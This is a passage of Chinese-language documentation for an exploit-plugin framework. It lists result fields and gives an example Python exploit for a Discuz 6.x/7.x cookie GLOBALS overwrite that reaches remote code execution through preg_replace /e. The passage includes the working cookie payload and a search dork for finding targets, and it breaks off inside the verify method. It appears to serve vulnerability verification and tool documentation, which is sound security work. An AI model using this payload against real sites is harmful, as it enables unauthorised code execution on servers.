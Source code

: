 `fullpath` : 存在漏洞的URL全路径。选择填充

`payload` : exploit使用的有效payload。选择填充

`vulinfo` : exploit执行返回的信息，例如数据库账户名等。选择填充

`shellpath` : 写入的shell路径地址。选择填充

`attachment` : 附件。选择填充

`elseinfo` : 其他信息。选择填充

`paramtype` : exploit发送请求的类型，GET/POST等。选择填充

`params` : exploit发送请求的内容。选择填充


### 3.4 示例

    from script.libs.exploit import Exploit
    from script.libs.exploit import Result

    class DiscuzRCE(Exploit):
        expName = u"Discuz 6.x 7.x cookie GLOBALS变量覆盖RCE"
        version = "1.0"
        author = "alpha1e0"
        language = "php"
        appName = "discuz"
        appVersion = "6.x 7.x"
        reference = ['http://www.wooyun.org/bugs/wooyun-2014-080723', 'http://bobao.360.cn/learning/detail/107.html','http://www.secpulse.com/archives/2338.html']
        description = u'''
            变量替换、利用preg_replace的/e参数实现远程命令执行
            漏洞利用条件：
                1.Discuz 6.x 7.x; 
                2.php<5.5.0; 
                3.php.ini request_order = "GP"，php>=5.3默认
                4.两种利用方式，需要的条件不一样，分别为：
                    viewthread.php?tid=1 帖子或帖子的回复中插入有“表情”
                    announcement.php 有公告信息
            gh: inurl:viewthread.php
        '''

        def _verify(self):
            result = Result(self)

            sig = '_SERVER["HTTP_HOST"]'
            cookie = "GLOBALS[_DCACHE][smilies][searcharray]=/.*/ei; GLOBALS[_DCACHE][smilies][replacearray]=phpinfo();"
            headers = dict()
            headers['Cookie'] = cookie

            response = self.http.get(self.url, headers=headers)
            
            if response.status_code == 200:
                if sig in response.content:
                    result['fullpath'] = self.url
                    result['payload'] = 'Cookie: '+cookie   
